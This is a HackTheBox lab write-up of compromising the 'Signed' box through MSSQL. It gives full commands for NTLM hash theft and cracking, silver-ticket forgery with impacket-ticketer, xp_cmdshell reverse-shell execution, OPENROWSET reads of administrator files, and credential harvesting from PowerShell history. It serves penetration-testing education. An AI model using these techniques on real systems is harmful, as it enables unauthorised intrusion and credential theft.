



# Signed - HackTheBox Writeup
[Here are the notes I took while solving](./walkthrough)

## Initial Reconnaissance

The challenge started with credentials handed to me: `scott:Sm230#C5NatH`. Running an nmap scan revealed only one open port on the target machine at 10.10.11.90:

```bash
nmap -p- 10.10.11.90
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-13 08:36 EDT
Nmap scan report for 10.10.11.90
Host is up (0.018s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
1433/tcp open  ms-sql-s
```

Just MSSQL. Interesting.

## NTLM Hash Stealing

I fired up Metasploit and used a module to perform an NTLM steal attack against the MSSQL server. The module worked like a charm, and Responder caught the hash beautifully:





Hashcat made quick work of cracking it, revealing the credentials `MSSQLSVC:purPLE9795!@`.



## Exploring the MSSQL Server

With valid credentials in hand, I connected to the MSSQL server using impacket:

```bash
impacket-mssqlclient -windows-auth 'MSSQLSVC:purPLE9795!@'@10.10.11.90
```

I could list files on the system using `xp_dirtree`:

```sql
SQL (SIGNED\mssqlsvc  guest@msdb)> xp_dirtree C:\
[%] exec master.sys.xp_dirtree 'C:\',1,1
subdirectory                depth   file   
-------------------------   -----   ----   
$Recycle.Bin                    1      0   
Config.Msi                      1      0   
Documents and Settings          1      0   
inetpub                         1      0   
PerfLogs                        1      0   
Program Files                   1      0   
Program Files (x86)             1      0   
ProgramData                     1      0   
SQL2022                         1      0   
System Volume Information       1      0   
Users                           1      0   
Windows                         1      0   
```

I spent some time exploring using this [MSSQL pentesting cheatsheet](https://github.com/Ignitetechnologies/MSSQL-Pentest-Cheatsheet?tab=readme-ov-file), but nothing particularly interesting jumped out at me.

## Understanding Silver Tickets

Then I stumbled upon the concept of Silver Tickets through [this excellent Medium article](https://medium.com/@Tvrpism/how-does-the-silver-ticket-actually-work-368ec8905edd). The concept is fascinating: when you interact with the KDC to use a service, the final step involves receiving a ticket with your username encrypted using the target service's hash. The service then verifies this ticket itself. 

But here's the kicker - if you've already compromised the service and obtained its NTLM hash, you can forge your own ticket and impersonate anyone. It's elegant in its simplicity.

To create a Silver Ticket, I needed five pieces of information:

1. **Who's running the service?** - `SIGNED\mssqlsvc` (already compromised)
2. **What's the SPN?** - Guessed from nmap info: `MSSQLSvc/DC01.SIGNED.HTB`
3. **What's the NTLM hash?** - Generated from the password: `EF699384C3285C54128A3EE1DDB1A0CC`
4. **Who to impersonate?** - `SIGNED\Administrator`
5. **What's the domain SID?** - Metasploit gave me `0105000000000005150000005b7bb0f398aa2245ad4a1ca4`

For the Administrator user ID, I modified a Metasploit script to print the bruteforced SID and found it was 500 (after swapping endianness and converting to base 16).

Converting the hex SID to decimal format using [this guide](https://froosh.wordpress.com/2005/10/21/hex-sid-to-decimal-sid-translation/), I took the last 24 characters, split them into three groups of 8, and converted from base16 with little endian to get: `S-1-5-21-4088429403-1159899800-2753317549`

My initial attempt:

```bash
impacket-ticketer \
    -spn MSSQLSvc/DC01.SIGNED.HTB \
    -nthash EF699384C3285C54128A3EE1DDB1A0CC \
    -user-id 500 \
    -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' \
    -domain signed.htb \
    Administrator
```

After extensive research, I discovered I needed to add the `-groups 1105` parameter (the IT group with admin rights on the database). I had assumed this would be automatically deduced or wasn't necessary - wrong assumption on my part.

The key insight came when I realized the SPN needed to match the connection address exactly, and I shouldn't specify a login:

```bash
impacket-ticketer \
    -spn MSSQLSvc/10.10.11.90:1433 \
    -nthash EF699384C3285C54128A3EE1DDB1A0CC \
    -user-id 1103 \
    -groups 1105 \
    -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' \
    -domain signed.htb \
    MSSQLSvc
```

```bash
impacket-mssqlclient -no-pass -k 10.10.11.90
```

Success! I was in with elevated privileges.

## Getting a Foothold

With my new permissions, I enabled `xp_cmdshell`. Using revshells.com, I generated a base64-encoded reverse shell payload and executed it. Boom - foothold established.

The user flag was sitting on the Desktop of the mssqlsvc user.

## Privilege Escalation Struggles

At this point, my lack of Windows experience hit me hard. I got stuck and had to look at hints. Even with the solution in front of me (adding Domain Admins/Enterprise Admins rights to read files with OPENROWSET), I couldn't wrap my head around how a low-privilege process could read admin files just by presenting itself as an admin - this isn't something that exists in Linux.

Then I found the explanation in [Microsoft's documentation](https://learn.microsoft.com/en-us/sql/relational-databases/import-export/import-bulk-data-by-using-bulk-insert-or-openrowset-bulk-sql-server?view=sql-server-ver17):

> "To successfully read the source data, you must grant the account used by the SQL Server Database Engine, access to the source data. In contrast, if a SQL Server user logs on by using Windows Authentication, the user can read only those files that can be accessed by the user account, regardless of the security profile of the SQL Server process."

Windows services can be granted rights to reuse the connection context they're given and execute as if they were that account. This was a crucial learning moment.

I regenerated my Silver Ticket with the necessary groups:

```bash
impacket-ticketer \
    -spn MSSQLSvc/10.10.11.90:1433 \
    -nthash EF699384C3285C54128A3EE1DDB1A0CC \
    -user-id 1103 \
    -groups 1105,512,519 \
    -domain-sid 'S-1-5-21-4088429403-1159899800-2753317549' \
    -domain signed.htb \
    MSSQLSvc
```

## Reading the Root Flag

Now I needed to enable OPENROWSET. After configuring the necessary options:

```sql
SQL (SIGNED\mssqlsvc  dbo@master)> sp_configure 'show advanced options', 1
SQL (SIGNED\mssqlsvc  dbo@master)> sp_configure 'Ole Automation Procedures', 1
SQL (SIGNED\mssqlsvc  dbo@master)> RECONFIGURE
```

I could finally read the root flag:

```sql
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:/Users/Administrator/Desktop/root.txt', SINGLE_CLOB) AS Contents
BulkColumn                                
---------------------------------------   
b'a5f12c409914b8221e13a754db1adeef\r\n'
```

## But Wait, There's More

Reading the flag felt hollow. A box isn't truly finished if you can't execute commands as Administrator. I asked Claude AI what interesting files I could read with these permissions, and it suggested checking PowerShell history files:

```
C:\Users\*\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

Jackpot:

```sql
SQL (SIGNED\mssqlsvc  dbo@master)> SELECT * FROM OPENROWSET(BULK N'C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt', SINGLE_CLOB) AS Contents
```

The file revealed:

```
Set-ADAccountPassword -Identity "Administrator" -NewPassword (ConvertTo-SecureString "Th1s889Rabb!t" -AsPlainText -Force) -Reset
```

Administrator credentials: `Administrator:Th1s889Rabb!t`

Using RunasCs, I could finally execute commands as Administrator:

```powershell
PS C:\Users\mssqlsvc\Downloads> ./runas.exe Administrator Th1s889Rabb!t "cmd /c whoami /all"

USER INFORMATION
----------------

User Name            SID                                          
==================== =============================================
signed\administrator S-1-5-21-4088429403-1159899800-2753317549-500
```

Now it felt complete.

## Reflections

I definitely couldn't have completed this box on my own. My lack of Windows knowledge would have left me stuck indefinitely on the privilege escalation, specifically around how a process running as a low-privilege user could impersonate an admin. But the rest was achievable, and more importantly, I learned an enormous amount. That's what matters most in the end.
